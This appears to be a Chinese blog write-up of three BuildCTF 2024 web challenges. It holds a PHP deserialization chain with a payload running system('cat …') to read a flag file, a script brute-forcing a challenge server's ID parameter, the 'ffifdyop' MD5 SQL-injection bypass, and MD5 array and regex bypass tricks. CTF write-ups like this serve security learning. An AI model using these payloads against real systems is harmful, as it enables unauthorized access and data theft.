 ```yaml
---
title: BuildCTF
date: 2024-10-18 19:45:18
tags: 复现
categories: 比赛复现
---
```


#### LovePopChain

简单的反序列化一枚

```
<?php
class MyObject{
    public $NoLove;
    public $Forgzy;

}

class GaoZhouYue{
    public $Yuer;
    public $LastOne;

}

class hybcx{
    public $JiuYue;
    public $Si;

}
$a=new MyObject();
$a->NoLove=new hybcx();
$a->NoLove->Si=new MyObject();

echo serialize($a);
```

注意的是，由于php版本的问题，传的参数应是No[Need.For.Love

```
?No[Need.For.Love=O:8:"MyObject":2:{s:6:"NoLove";O:5:"hybcx":2:{s:6:"JiuYue";N;s:2:"Si";O:8:"MyObject":2:{s:6:"NoLove";N;s:6:"Forgzy";N;}}s:6:"Forgzy";N;}

y3y4=system('cat ../../../ofl1111111111ove4g');
```



#### find-the-id

写个脚本爆破

```
import requests
url="http://27.25.151.80:39324/?g="
session=requests.Session()
for i in range(1,301):
    a=url+str(i)
    r=session.get(a)

    if "{" in r.text:
        print(r.text)

```

然后得到flag了



#### ez_md5

![image-20241020205408854](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410202054957.png)

password进行了md5加密

我们想到了两个特殊的md5

```
数字型：129581926211651571912466741651878684928
字符型：ffifdyop
```

他们都含有or结构，可以绕过sql注入

我们提交ffifdyop后得到了源码

```
<?php
error_reporting(0);
///robots
highlight_file(__FILE__);
include("flag.php");
$Build=$_GET['a'];
$CTF=$_GET['b'];
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('不可以哦！'); 
    } 
}
if($Build != $CTF && md5($Build) == md5($CTF))
{
    if(md5($_POST['Build_CTF.com']) == "3e41f780146b6c246cd49dd296a3da28")
    {
        echo $flag;
    }else die("再想想");

}else die("不是吧这么简单的md5都过不去？");
?>
```

我们先了解一下$_REQUEST是什么东西

```
 $_REQUEST 变量包含了 $_GET、$_POST 和 $_COOKIE 的内容。
```

我们发现页面原本就有了回显

![image-20241020205742182](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410202057216.png)

我们猜测cookie含有字母，我们修改cookie为1，就绕过了正则匹配

然后第一个if是md5碰撞

我们用数组过滤了

```
?a[]=1&b[]=2
```

![image-20241020205922871](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410202059900.png)

然后我们需要md5($_POST['Build_CTF.com']) == "3e41f780146b6c246cd49dd296a3da28"）

页面还给了提示，我们查看robots.txt

![image-20241020210015156](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410202100184.png)

我们得到了部分要传的数据

我们进行爆破

```
<?php
for($a=1;$a<=10000000;$a++){
if(md5("114514".$a) == "3e41f780146b6c246cd49dd296a3da28"){
    echo "114514".$a;
    break;

    }

}
```

得到要传的数据

```
Build[CTF.com=1145146803531
```

由于php版本问题，Build_CTF.com的_要改为[
